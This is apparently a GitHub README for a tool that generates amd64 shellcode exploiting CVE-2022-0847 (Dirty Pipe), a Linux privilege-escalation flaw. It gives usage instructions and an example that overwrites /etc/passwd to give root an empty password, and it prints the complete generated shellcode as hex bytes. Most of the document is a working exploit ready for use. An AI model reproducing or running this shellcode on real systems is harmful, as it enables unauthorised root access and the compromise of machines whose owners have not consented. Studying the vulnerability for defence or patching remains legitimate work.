 # cve_2022_0847_shellcode

## Description

This repository contains a Python script (```gen_shellcode.py```), based on pwntools, to generate a shellcode implementing [CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847). <br>
The shellcode is based on this Poc: [antx](https://github.com/antx-code/CVE-2022-0847). <br>
I analyzed the code of the PoC and its execution with strace to catch all the system calls required to make the exploit, and at first I wrote a C program that uses ```syscall.h```; it was still not suitable for a shellcode, but it's good for reference, so I shipped it here (```tiny_cve-2022-0847.c```). <br>
The function which generates the shellcode takes 3 parameters: path of the file to write to, data to write and offset at which data must be written. <br>
An example of generated shellcode, in disassemble format from objdump, can be found in ```shellcode.asm```; it was generated with the following parameters:

- filename ```/etc/passwd```
- data ```:$1$$qRPK7m23GJusamGpoGLby/:0:0::/:/bin/sh\n```
- offset ```4```

It leaves the root with an empty password.

## Usage

```
$ python gen_shellcode.py 
Usage: gen_shellcode.py filename data offset [verbose (any value here sets verbose to True)]
```

You can import the function ```cve_2022_0847```, which generates the shellcode, to call it in other scripts, or directly use this script; there is an ```example_usage``` function which calls ```cve_2022_0847``` and makes an ELF with the shellcode. <br>
The ```cve_2022_0847``` also performs some basic sanity checks, and it prints what can go wrong with the exploit and the disassembled shellcode if ```verbose``` parameter is set. <br>
It returns the assembled shellcode. The ```main``` function calls ```cve_2022_0847``` with the command line parameters and prints the resulting shellcode in C-style hex, i.e. without decoding printable bytes. For example:

```
$ python gen_shellcode.py /etc/passwd ":$1$$qRPK7m23GJusamGpoGLby/:0:0::/:/bin/sh\n" 4
Resulting shellcode:
\x68\x72\x76\x65\x01\x81\x34\x24\x01\x01\x01\x01\x48\xb8\x2f\x65\x74\x63\x2f\x70\x61\x73\x50\x48\x89\xe6\x6a\x9c\x5f\x31\xd2\x31\xc0\x66\xb8\x01\x01\x0f\x05\x48\x83\xec\x10\x48\x89\xe7\x6a\x16\x58\x0f\x05\x6a\x05\x5f\x31\xf6\x66\xbe\x08\x04\x6a\x48\x58\x0f\x05\x49\x89\xc7\x4d\x89\xfe\x6a\x05\x5f\x48\x81\xec\x00\x10\x00\x00\x48\x89\xe6\x31\xd2\xb6\x10\x4d\x85\xff\x74\x0a\x6a\x01\x58\x0f\x05\x49\x29\xd7\xeb\xf1\x4d\x89\xf7\x6a\x04\x5f\x4d\x85\xff\x74\x09\x31\xc0\x0f\x05\x49\x29\xd7\xeb\xf2\x6a\x03\x45\x31\xd2\x6a\x01\x41\x58\x45\x31\xc9\x6a\x03\x5f\x6a\x05\x5a\x48\x89\xe6\x31\xc0\x66\xb8\x13\x01\x0f\x05\x48\xb8\x01\x01\x01\x01\x01\x01\x01\x01\x50\x48\xb8\x2e\x72\x69\x5d\x6f\x01\x01\x01\x48\x31\x04\x24\x48\xb8\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x50\x48\xb8\x4c\x62\x79\x2f\x3a\x30\x3a\x30\x50\x48\xb8\x75\x73\x61\x6d\x47\x70\x6f\x47\x50\x48\xb8\x50\x4b\x37\x6d\x32\x33\x47\x4a\x50\x48\xb8\x3a\x31\x36\x39\x32\x33\x71\x52\x50\x48\x89\xe6\x6a\x05\x5f\x6a\x2d\x5a\x6a\x01\x58\x0f\x05\x31\xff\x31\xc0\xb0\xe7\x0f\x05
```

## Disclaimer

Supported architecture is only ```amd64```.

